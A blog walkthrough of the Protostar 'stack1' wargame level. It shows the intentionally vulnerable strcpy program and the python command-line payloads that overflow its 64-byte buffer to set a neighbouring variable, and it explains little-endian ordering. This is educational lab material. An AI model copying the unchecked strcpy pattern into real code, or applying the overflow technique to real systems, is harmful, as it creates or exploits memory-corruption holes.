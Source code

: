 ```yaml
---
layout: post
title: "More Stack Overflows: protostar stack1"
date: 2018-09-09 12:35:12 -700
categories: jekyll update
---
```

The next stack based overflow challenge on protostar involves setting a variable equal to a specific value.
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
} 
{% endhighlight %}
As we can see, the goal of this level is to set the 'modified' variable equal to the value 0x61626364, and it should output a message that we have completed the challenge. 

Note that the input you supply is actually through the command line. It would be supplied like this, where foobar is whatever your input is.

$./stack1 foobar

Let's solve this.

$./stack1 $(python -c 'print "A"*65')

Try again, you got 0x00000041

$

We know the buffer is size 64, and if we look at the source code, we see that the variable we are attempting to modify is right next to the buffer. It makes perfect sense that putting one character more than the size of the buffer would set the variable equal to 0x41, which is the ascii value of "A".

what does this mean?
It means we need to fill the buffer with 64 characters (I will be using "A", but you could do it with really any) and then we need to set the variable equal to 0x61626364. That should be easy!

For the variable, we could either use python (or another language like perl) to set the variable, or we could use ascii characters, if they are printable. Because this is a rare case of needing to set a variable to a number with corresponding ascii characters in the printable range, let's do this.
We can look up the ascii table and find that 
	0x61 corresponds to "a"
	0x62 corresponds to "b"
	0x63 corresponds to "c"
	0x64 corresponds to "d"

$./stack1 $(python -c 'print "A"*64 + "abcd"')

Try again, you got 0x64636261

$

Our number looks backwards! What is going on here? If you notice, the first character we put into it was "a", which is 0x61. But we see that is at the end of our number, when we need it at the beginning. 

This is because of something called Little Endian byte order, which essentially means that the first byte we put in will be the least significant byte.

This also means, in terms of solving this challenge, we need to put our ascii characters backwards. 

$./stack1 $(python -c 'print "A"*64 + "dcba"')

you have correctly got the variable to the right value

$

Cool, now we know that we can set variables to be equal to specific values!